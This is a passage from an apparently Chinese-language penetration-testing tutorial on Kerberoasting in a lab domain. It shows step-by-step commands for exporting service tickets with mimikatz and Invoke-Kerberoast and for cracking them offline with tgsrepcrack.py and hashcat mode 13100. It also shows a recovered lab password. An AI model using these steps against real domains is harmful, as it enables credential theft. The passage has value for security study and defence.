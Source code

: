 这里可以借助 mimikatz 导出：

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104201932502-1233130076.png)

使用 kerberoast 工具集中的 tgsrepcrack.py 工具进行离线爆破，成功得到 tsvc 账号的密码 admin1234! ：

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104202039321-119232534.png)

#### 3.2 Kerberoasting 的 “新姿势”

攻击流程：

1\. 在之前的 Kerberoasting 中需要通过 mimikatz 从内存中导出票据，这里使用的是 Empire 中的 Invoke-Kerberoast.ps1；Invoke-Kerberoast 通过提取票据传输时的原始字节，转换成 John the Ripper 或者 HashCat 能够直接爆破的字符串。

```
Invoke-kerberoast –outputformat hashcat |fl


```

2\. 这里–outputformat 参数可以指定输出的格式，可选 John the Ripper 和 Hashcat 两种格式，这里以 Hashcat 做演示：

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104202315528-1808929428.png)

CopyCopy

这个脚本申请访问的是

`MSSQLSvc/s2.yunying.lab:1433`

这个 SPN ，查看数据包可以看到 Invoke-Kerberoast 输出的 Hash 值就是 TGS-REP 中返回的票据内容，然后拼接成了 Hashcat 可以直接爆破的格式（以

`$krb5tgs$23*`

开头的）

3\. 可以把内容保存至文档，也可以直接重定向到 TXT 文件：

```
PS C:> Invoke-Kerberoast-Outputformat Hashcat | fl > test1.txt


```

4\. 使用 HASHCAT 工具进行破解：

```
PSC:> hashcat64.exe –m 13100 test1.txt password.list --force


```

Copy

在这里

`–m`

表示选择不同的加密类型，其中 13100 对应的是 Kerberos 5 TGS-REP 类型的密文。
